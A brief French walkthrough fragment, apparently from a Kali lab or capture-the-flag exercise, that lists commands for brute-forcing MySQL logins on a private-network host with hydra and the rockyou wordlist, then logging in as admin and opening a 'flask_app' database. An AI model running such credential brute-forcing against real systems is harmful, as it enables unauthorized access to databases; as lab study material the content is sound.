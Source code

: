 Dans Kali : 

- hydra -L users.txt -P rockyou.txt -f -v -V 192.168.1.36 mysql

- sudo apt install mariadb-client-core

- mysql -h 192.168.1.36 -u admin -p

- show databases;

- use flask_app;

